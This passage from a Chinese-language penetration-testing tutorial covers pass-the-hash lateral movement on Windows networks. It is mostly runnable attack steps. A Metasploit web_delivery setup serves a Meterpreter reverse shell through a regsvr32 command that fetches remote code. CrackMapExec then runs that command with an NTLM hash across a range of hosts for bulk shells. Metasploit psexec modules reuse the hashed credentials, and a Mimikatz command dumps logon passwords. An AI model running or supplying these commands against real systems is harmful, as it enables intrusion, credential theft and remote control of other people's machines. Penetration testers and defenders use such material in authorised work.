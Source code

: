 ```bash
use exploit/multi/script/web_delivery
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 17.10.0.1
set LPORT 9999
set target 3
run
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 17.10.0.1:9999 
[*] Using URL: http://0.0.0.0:8080/1KZkey
[*] Local IP: http://10.204.146.152:8080/1KZkey
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://17.10.0.1:8080/1KZkey.sct scrobj.dll
```

通过pass-the-hash执行命令批量getshell

```bash
cme smb 17.10.0.10-15 -u administrator -H AFC44EE7351D61D00698796DA06B1EBF -x "regsvr32 /s /n /u /i:http://17.10.0.1:8080/1KZkey.sct scrobj.dll"
```

![](https://raw.githubusercontent.com/ssooking/imgbed/master/img/yushentou-ntml-hash/20181203201319.png)

### [Metasploit](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

search `psexec`，`smblogin`

```bash
use exploit/windows/smb/psexec 
set payload windows/meterpreter/bind_tcp
set RHOST 17.10.0.10
set smbuser administrator
set smbpass AAD3B435B51404EEAAD3B435B51404EE:AFC44EE7351D61D00698796DA06B1EBF
exploit

use exploit/windows/smb/psexec_psh
set payload windows/meterpreter/bind_tcp
set RHOST 17.10.0.10
set smbuser administrator
set smbpass AAD3B435B51404EEAAD3B435B51404EE:AFC44EE7351D61D00698796DA06B1EBF
```

举例：

![](https://raw.githubusercontent.com/ssooking/imgbed/master/img/yushentou-ntml-hash/20181203212818.png)

### [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)

先抓取hash

```bash
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords""
```
